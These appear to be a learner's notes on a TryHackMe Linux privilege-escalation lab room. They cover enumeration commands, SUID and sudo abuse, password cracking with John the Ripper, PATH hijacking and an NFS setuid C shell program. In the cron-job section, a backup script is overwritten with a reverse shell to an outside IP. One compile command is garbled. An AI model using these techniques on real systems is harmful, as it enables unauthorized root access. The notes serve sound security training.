 - room link: https://tryhackme.com/r/room/linprivesc
- `hostname` - returns the hostname of the target machine.
-  `uname -a` - returns system info and kernel info, useful for finding kernel vulnerabilities for kernel privesc
- `/proc/version` -  besides kernel info, it may give additional info like **GCC** compiler info
- `/etc/issue` - info about the operating system
- `ps` (Process Status) will show the processes running on the current shell.
	-  `ps -A` - display all running processes
	-  `ps axjf` - process tree
	-  `ps aux` - display processes for all users
- `env` - display environmental variables
- `sudo -l` - display all commands that can be run with root privileges
- `ls` - display all the contents of a folder (don't forget to use the `-la` parameter)
- `id` - display user's privilege level and group memberships
- `/etc/passwd` - for discovering users
	- `cat /etc/passwd | cut -d ":" -f 1` - can be used for brute force attacks (returns list of all users on the system)
	- `cat /etc/passwd | grep home` - list users that have a home directory
-  `history` - command history, might be useful
-  `ifconfig` - network info about the system
-  `ip route` - network routes
-  `netstat` - display all existing communications
	-  `netstat -a` - all listening ports and established connections
	-  `netstat -at` or `netstat -au` - list TCP or UDP protocols respectively
	-  `netstat -l` - listening ports (`netstat -lt` - display all listening ports that are using TCP)
	-  `netstat -s` - listening ports usage by protocol (`-t` or `-u` limit the output to a specific protocol)
	- `netstat -tp` - list connections with the service name and PID information (`-ltp` can also be used for listing all listening ports)
	- `netstat -i` - interface statistics
	- `netstat -ano` - display all sockets, do not resolve names, display timers

**Find files:**
- `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
- `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
- `find / -type d -name config`: find the directory named config under “/”
- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
- `find / -perm a=x`: find executable files
- `find /home -user frank`: find all files for user “frank” under “/home”
- `find / -mtime 10`: find files that were modified in the last 10 days
- `find / -atime 10`: find files that were accessed in the last 10 day
- `find / -cmin -60`: find files changed within the last hour (60 minutes)
- `find / -amin -60`: find files accesses within the last hour (60 minutes)
- `find / -size 50M`: find files with a 50 MB size
- `find / -size +100M` - display all files larger than 100 mb
- filter errors with `2>/dev/null`
- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
- `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

###### Kernel exploits
- used https://www.exploit-db.com/exploits/37292 for getting root privileges. (the machine had a vulnerable kernel version: 3.13.0-24-generic)

###### Sudo
- `sudo` allows us to execute commands with root privileges
- i used `sudo -l` to see what commands can 'karen' run with root privileges. `less` was then used to see the contents of the flag

###### SUID
-  files that have the SUID (Set-user Identification) flag set can be executed with the owner's privileges 
-  `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. "base64" had the SUID flag set and the file owner was "root". I could read protected files with `base64 "$LFILE" | base64 --decode`, e.g. `base64 "/etc/passwd" | base64 --decode`
- `unshadow`: can be used to merge `/etc/passwd` and `/etc/shadow`.
- `john` (John the Ripper) can be used on the merged file for password cracking.
- set the SUID flag with `chmod +s <executable>`

###### Capabilities
- "Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user."
-  `getcaps / -r 2>/dev/null` - list all capabilities

###### Cron Jobs
- "Cron jobs are used to run scripts or binaries at specific times."
- `cat /etc/crontab` - i found a `backup.sh` script with `root` as the file owner running as root every minute. i changed the contents of the script to: `sh -i >& /dev/tcp/10.21.55.48/6969 0>&1` and set up a listener with netcat: `nc -lnvp 6969` and waited for the script to run. After the script was executed i got root privileges. 
- i got the flag in `/home/ubuntu`
- i cracked Matt's password by merging `/etc/passwd` and `/etc/shadow` into `unshadowed.txt` for `john`(John the ripper), a tool used for hash cracking, command: `john unshadowed.txt`. The password was `123456`

###### PATH
-  "Writable folders are directories on a filesystem where a user or process has permission to **create, modify, or delete files** within that directory."
-  `find / -writable 2>/dev/null` - search for writable folders
	-  `find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u` - cleaner output
	-  `find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u` - cleaner output, get all the folder that contain "usr"
	- An alternative could be the command below. `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` . We have added “grep -v proc” to get rid of the many results related to running processes.

- `/tmp` is a writable folder, add it to PATH using `export PATH=/tmp:$PATH`
- flag: i had an executable `test` which has the file owner as `root`. `test` searches for `thm` and executes it. I added the folder `/tmp` as a PATH variable and I added `thm` to `/tmp` so `thm` can be executed from anywhere. The `thm` script: `/bin/bash` for spawning a shell with root privileges.

###### NFS (Netword File Sharing)
-  root [[ssh (secure shell)]] private key
-  misconfigured network shell
-  NFS (Network File Sharing) configuration in `/etc/exports` usually. `no_root_squash
- `showmount -e <target_ip>` for enumerating mountable shares
- users can use `mount` to connect to these "shares" (directories) on a NFS server.
- mountable shares are specified in `/etc/exports`
- set the SUID flag with `chmod +s <executable>`
- `mount.nfs: failed to apply fstab options`. For this error run `mount` with `sudo`
- `df -h` : check mounted directories
- `sudo umount`: **unmount** directory
-  if you want to remount a directory to a different nfs share you have to unmount it first.
- FIRST MOUNT THE DIRECTORY AND THEN MAKE CHANGES TO IT!!!!!
- if there any error related to libc version, compile the c program with `-static` (the program will not require an external libc library anymore) 
- "The `-static` argument in **GCC (GNU Compiler Collection)** is used to **link the program statically** with the libraries, as opposed to the default dynamic linking. This means that when you compile a program with `-static`, the necessary library files are bundled directly into the final executable, rather than relying on external shared libraries (like `.so` files) to be available on the system when the program is executed." via chatgpt
 ```c
 #include <stdlib.h>
 #include <unistd.h>
 int main()
 { setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
 }
 ```
 - `sudo chmod +sx program.c -o program -static`
 - `gcc nfs.c -o nfs -w` ?
###### Capstone Challenge
- explore more privilege escalation vectors

### **What is Horizontal Privilege Escalation?**

In horizontal privilege escalation, an attacker compromises another user account without increasing their privilege level. For example, moving from one non-administrative user to another or accessing resources/data meant for a different user.

## Path variable exploitation